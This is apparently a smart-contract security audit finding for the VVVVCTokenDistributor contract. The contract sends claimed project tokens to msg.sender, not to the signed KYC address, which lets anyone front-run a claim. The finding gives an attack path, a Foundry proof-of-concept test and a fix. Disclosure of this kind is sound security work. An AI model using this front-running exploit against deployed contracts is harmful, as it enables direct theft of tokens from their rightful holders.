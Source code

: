 Proper Cream Elephant

High

# Token distributor sends project tokens to `msg.sender` instead of to VC's `kycAddress`, allows direct stealing with front-running

### Summary

Token distributor sends project tokens to the wrong destination (`msg.sender` instead of to VC's `_params.kycAddress`). Because anyone can send the signed message, the signed params can be copy-pasted and front-runned while it's on the mempool.

This will send the project tokens to the front-runner instead of to the VC's wallet.

### Root Cause

In `VVVVCTokenDistributor`, the claim params are signed by the vvv signer, before being sent onchain for claiming.

However, the project tokens are sent to `msg.sender` instead of the rightful recipient.

https://github.com/sherlock-audit/2024-11-vvv-exchange-update/blob/main/vvv-platform-smart-contracts/contracts/vc/VVVVCTokenDistributor.sol#L130-L136

```solidity
for (uint256 i = 0; i < _params.projectTokenProxyWallets.length; i++) {
            projectToken.safeTransferFrom(
                _params.projectTokenProxyWallets[i],
                msg.sender, // @audit anyone can send the params and claim
                _params.tokenAmountsToClaim[i]
            );
        }
```

This is the wrong destination, because anyone can send the messages, and thus `msg.sender` can be anyone. 

### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

1. A VC tries to claim project tokens. VVV system signs a message for the VC to claim.
2. The tx with the claim params is sent to the mempool.  
3. Attacker copy-pastes the claim params, and sends the same call with a higher gas price for front-running.
4. Contract will send the project tokens to the attacker instead of the VC's wallet

### Impact

Direct theft of project tokens.

### PoC

Paste into `VVVVCTokenDistributor.unit.t.sol`, then run with `forge test --match-test testClaimAsSomeoneElse`

```solidity
function testClaimAsSomeoneElse() public {
        address[] memory thisProjectTokenProxyWallets = new address[](1);
        uint256[] memory thisTokenAmountsToClaim = new uint256[](1);

        thisProjectTokenProxyWallets[0] = projectTokenProxyWallets[0];

        uint256 claimAmount = sampleTokenAmountsToClaim[0];
        thisTokenAmountsToClaim[0] = claimAmount;

        VVVVCTokenDistributor.ClaimParams memory claimParams = generateClaimParamsWithSignature(
            sampleKycAddress,
            thisProjectTokenProxyWallets,
            thisTokenAmountsToClaim
        );

        /*
        claimAsUser(sampleKycAddress, claimParams);
        assertTrue(ProjectTokenInstance.balanceOf(sampleKycAddress) == claimAmount);
        */

        address attacker = address(0xa11ce);
        vm.startPrank(attacker);
        TokenDistributorInstance.claim(claimParams);
        vm.stopPrank();

        assertTrue(ProjectTokenInstance.balanceOf(attacker) == claimAmount);
    }
```

### Mitigation

Either validate that `msg.sender` is the VC address, or send the tokens to the KYC address instead of `msg.sender`